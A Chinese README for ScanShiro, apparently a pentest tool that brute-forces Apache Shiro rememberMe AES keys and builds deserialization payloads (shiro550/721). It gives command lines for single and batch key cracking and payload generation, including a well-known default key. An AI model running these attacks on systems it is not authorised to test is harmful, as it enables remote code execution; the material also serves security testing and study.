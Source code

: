 # ScanShiro

>把去年写的ShiroScan 给重构了一下

## 学习

[原理](http://www.lmxspace.com/2020/08/24/%E4%B8%80%E7%A7%8D%E5%8F%A6%E7%B1%BB%E7%9A%84shiro%E6%A3%80%E6%B5%8B%E6%96%B9%E5%BC%8F/)

```java
<1.2.4   shiro550
<1.4.2   shiro721 https://cloud.tencent.com/developer/article/1944738 需要成功登录
>1.4.2   换加密方法 aes cmg
```

## 使用

```java
暴力破解key
java -jar ScanShiro.jar -u http://0.0.0.0 -k key.txt
        
批量暴力破解key
java -jar ScanShiro.jar -f url.txt -k key.txt
        
根据正确的key生成payload 适合在有key无gadgets的情况下
java -jar ScanShiro.jar -p payload.ser -c kPH+bIxk5D2deZiIxcaaaA==

-n 参数是值修改shiro中cookie的名字少部分环境存在,默认是rememberMe
        
-proxy 参数是代理 目前只支持socks5代理并且没有用户名密码
```

**说明:默认是先跑AES/CBC的模式如果没有跑出key就自动跑AES/GCM,并且生成payload的时候生成这两种的payload。怎么说呢工具肯定是存在误报的！！！**


## 问题

  1. 少部分环境存在shiro rememberMe参数为于post请求中 等待解决
  2. 经过大量测试,发现当跑批量的时候小几率出现连接异常的问题.所以为了保证工具准确性建议提前测试目标连接情况

